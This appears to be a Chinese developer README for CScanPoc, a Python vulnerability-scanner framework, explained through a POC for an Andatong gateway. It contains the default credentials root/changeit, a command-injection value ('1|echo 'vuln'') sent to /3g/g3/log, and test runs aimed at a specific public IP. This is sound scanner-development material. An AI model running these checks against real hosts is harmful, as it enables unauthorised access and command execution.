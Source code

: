 # CScanPoc

CScan Poc 开发文档。

## 接口概述

接口集中在 `CScanPoc.lib.api` 中定义。

- `ABVuln` : 漏洞抽象类，定义漏洞相关字段，具体的漏洞应该继承该类
- `ABPoc` : 漏洞验证扫描抽象类，定义 POC 的接口，具体的 POC 继承它，实现相关接口，使用 `output` 输出执行、报告数据。一般来说一个`ABPoc`（扫描程序）实现对一个`ABVuln`（漏洞）的验证；一个 POC 也可以关联、实现多个漏洞的扫描。

## 使用说明

### 开发环境

依赖使用 [pipenv](https://github.com/pypa/pipenv) 管理，具体安装参见[pipenv#installation](https://github.com/pypa/pipenv#installation)。PyCharm 中设定 pipenv 可见[这里](https://stackoverflow.com/questions/46251411/how-do-i-properly-setup-pipenv-in-pycharm)。

建议添加环境变量 `PIPENV_VENV_IN_PROJECT=1` （比如在 `~/.bashrc` 中加 `export PIPENV_VENV_IN_PROJECT=1`），这样，virtualenv 将被安装到项目根目录 ~.venv~ 中。

pipenv 安装好之后，进入项目根目录（含有 Pipfile 文件的目录），执行`pipenv install`，然后执行`pipenv install '-e .' --dev` 安装 CScanPoc 到本地环境。执行`pipenv shell`在当前虚拟环境中启动 shell。

这时，你可以执行 `python CScanPoc/template.py -u http://www.targetsite.com` 执行测试代码。

格式化代码：`./.venv/bin/autopep8 --in-place <要格式化的文件>`

或者格式化一个目录中所有代码： `for i in $(find <要格式化的目录> -name '*.py'); do echo $i; ./.venv/bin/autopep8 --in-place $i; done`


### 漏洞编写

下面以 [http://vul.hu0g4.com/index.php/2017/11/21/5.html](http://vul.hu0g4.com/index.php/2017/11/21/5.html) 中的使用弱口令登陆后，存在远程命令执行为例，进行编写这个漏洞的 POC。

首先导入相关接口：

```python
# coding: utf-8

from CScanPoc.thirdparty import requests
from CScanPoc import ABPoc, ABVuln, VulnLevel, VulnType
```

然后定义漏洞信息，它继承自 `ABVuln`：

```python
class Vuln(ABVuln):
    vuln_id = '' # 平台漏洞编号，留空
    name = '安达通网关3g/g3/log命中执行漏洞' # 漏洞名称
    level = VulnLevel.SEVERITY # 漏洞危害级别
    type = VulnType.RCE # 漏洞类型
    disclosure_date = '2017-08-22'  # 漏洞公布时间
    desc = '''
        安达通网关系统存在默认口令，用户名root 密码changeit。
        可通过该账户登录系统,在'3g/g3/log'页面存在命令执行漏洞，
        可直接执行系统命令,来获取系统权限。
    ''' # 漏洞描述
    ref = 'http://vul.hu0g4.com/index.php/2017/11/21/5.html' # 漏洞来源
    cnvd_id = '' # cnvd漏洞编号
    product = 'IAM网关控制台'  # 漏洞应用名称
    product_version = 'x.6.660'  # 漏洞应用版本
```

下面开始书写该漏洞的 poc 代码，继承自 `ABPoc`，定义作者和该 poc 的编写时间：

```python
class Poc(ABPoc):
    author = 'CScan'  # POC编写者
    create_date = '2018-3-24' #POC创建时间

    def __init__(self):
        super(Poc, self).__init__(Vuln())

    def verify(self):
        <<验证代码>>

    def exploit(self):
        super(Poc, self).exploit()
```

注意到其中 `__init__` 中的代码，它说明了该 poc 扫描的漏洞是上面定义的 `Vuln` 漏洞。

下面以验证部分代码为例介绍一下 `ABPoc` 为我们提供的接口。`<<验证代码>>` 部分如下，注意阅读其中注释部分：

```python
post_data = {'username': 'root', 'password': 'changeit'}
code_exec = {'line': '1|echo \'vuln\''}

try:
    # self.vuln: 当前扫描的漏洞
    # self.target: 扫描目标
    path = '{url}/home/login'.format(url=self.target)
    s = requests.Session()
    # self.output.info: 执行日志、流程信息的打印
    self.output.info('使用用户信息 {up} 访问 {path}'.format(path=path, up=post_data))
    response = s.post(path, data=post_data)

    if response.content == '1':
        # self.output.warn: 扫描特定漏洞发现的疑似漏洞信息打印
        self.output.warn(self.vuln, '发现弱口令 {up}'.format(up=post_data))

        path = self.target + '/3g/g3/log'
        self.output.info('发送 payload={0} 到 {1}'.format(code_exec, path))
        result = s.post(path, data=code_exec)

        if 'vuln' in result.content:
            # self.output.report: 扫描到的漏洞信息的打印
            self.output.report(
                self.vuln,
                "目标 {url} 存在 /3g/g3/log 任意命令执行漏洞".format(url=self.target))
except Exception as e:
    self.output.info('执行异常{}'.format(e))
```

方便用于调试，添加 `main` 行：

```python
if __name__ == '__main__':
    # run 会解析命令行参数 -u 到 target 中
    Poc().run()
```

此时一个漏洞的 POC 就书写完毕，完整代码在 `CScanPoc/pocs/andatong_exec.py` 中，可以执行测试：

```python
python CScanPoc/pocs/andatong_exec.py -u http://221.224.120.187:8080
```

### 漏洞编写-一个 POC 验证多个漏洞

还是以前面那个漏洞为例，实际上从上面的漏洞描述可以看出这实际包含两个漏洞。

1.  默认口令： 用户名 root 密码 changeit
2.  命令执行： 登陆后 '3g/g3/log' 页面存在命令执行漏洞，可直接执行系统命令，获取系统权限。

因此我们可以定义两个漏洞：

```python
class AdtDefaultAuthInfoVuln(ABVuln):
    vuln_id = '' # 平台漏洞编号，留空
    name = '安达通网关默认口令' # 漏洞名称
    level = VulnLevel.SEVERITY # 漏洞危害级别
    type = VulnType.MISCONFIGURATION # 漏洞类型
    disclosure_date = '2017-08-22'  # 漏洞公布时间
    desc = '''安达通网关系统存在默认口令，用户名root 密码changeit。''' # 漏洞描述
    ref = 'http://vul.hu0g4.com/index.php/2017/11/21/5.html' # 漏洞来源
    cnvd_id = '' # cnvd漏洞编号
    product = 'IAM网关控制台'  # 漏洞应用名称
    product_version = 'x.6.660'  # 漏洞应用版本

class AdtRCEVuln(ABVuln):
    vuln_id = '' # 平台漏洞编号，留空
    name = '安达通网关命令执行' # 漏洞名称
    level = VulnLevel.SEVERITY # 漏洞危害级别
    type = VulnType.MISCONFIGURATION # 漏洞类型
    disclosure_date = '2017-08-22'  # 漏洞公布时间
    desc = '''
        安达通网关系统登陆后在 '3g/g3/log'' 存在命令执行漏洞，
        可执行系统命令获取系统权限。
    ''' # 漏洞描述
    ref = 'http://vul.hu0g4.com/index.php/2017/11/21/5.html' # 漏洞来源
    cnvd_id = '' # cnvd漏洞编号
    product = 'IAM网关控制台'  # 漏洞应用名称
    product_version = 'x.6.660'  # 漏洞应用版本
```

对应 poc 可以这样写。

```python
class Poc(ABPoc):
    author = 'CScan'  # POC编写者
    create_date = '2018-3-24' #POC创建时间

    def __init__(self):
        super(Poc, self).__init__({
            'auth': AdtDefaultAuthInfoVuln(),
            'rce': AdtRCEVuln()
        })

    def verify(self):
        post_data = {'username': 'root', 'password': 'changeit'}
        code_exec = {'line': '1|echo \'vuln\''}

        try:
            # self.vuln: 当前扫描的漏洞
            # self.target: 扫描目标
            path = '{url}/home/login'.format(url=self.target)
            s = requests.Session()
            # self.output.info: 执行日志、流程信息的打印
            self.output.info('使用用户信息 {up} 访问 {path}'.format(path=path, up=post_data))
            response = s.post(path, data=post_data)

            if response.content == '1':
                # self.output.warn: 扫描特定漏洞发现的疑似漏洞信息打印
                self.output.warn(self.vuln['auth'], '发现弱口令 {up}'.format(up=post_data))

                path = self.target + '/3g/g3/log'
                self.output.info('发送 payload={0} 到 {1}'.format(code_exec, path))
                result = s.post(path, data=code_exec)

                if 'vuln' in result.content:
                    # self.output.report: 扫描到的漏洞信息的打印
                    self.output.report(
                        self.vuln['rce'],
                        "目标 {url} 存在 /3g/g3/log 任意命令执行漏洞".format(url=self.target))
        except Exception as e:
            self.output.info('执行异常{}'.format(e))

    def exploit(self):
        super(Poc, self).exploit()
```

这段示例代码放在 `CScanPoc/pocs/andatong_exec_1.py`，同样，你可以执行测试：

```python
python CScanPoc/pocs/andatong_exec_1.py -u http://221.224.120.187:8080
```

# 编译与发布

## Docker 支持

编译：`./build.sh ../pocs`
